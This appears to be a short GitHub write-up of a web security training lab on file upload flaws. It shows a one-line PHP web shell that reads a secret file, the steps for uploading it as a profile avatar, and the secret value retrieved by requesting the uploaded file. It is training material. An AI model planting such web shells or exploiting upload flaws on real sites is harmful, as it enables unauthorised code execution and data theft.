 # File upload vulnerabilities


---

<details>
  <summary>Lab: Remote code execution via web shell upload</summary>

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter``


---

1. login as ``wiener``
2. make newfile ``exploit.php``

``content`` of it:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

3. on my profile try to upload this file instead of photo

<img width="1140" height="282" alt="image" src="https://github.com/user-attachments/assets/27a7e7ba-24e8-44f4-9cfa-f8f0237436a9" />

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/d63874c1-6f17-4726-8cf3-2c43c93797cb" />

4. it successfully uploaded
5. now want to run this file we know form the request it saved in ``/files/avatars/exploit.php``

```url
https://0a6300e9038f3f07800e218600ea00a0.web-security-academy.net/files/avatars/exploit.php
```
```
mPcV5fg8QF3QG5vvRAjs2BIz4bVAcRra
```

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/634cd97e-e1b8-4194-816f-b98dd585f83c" />

  
</details>

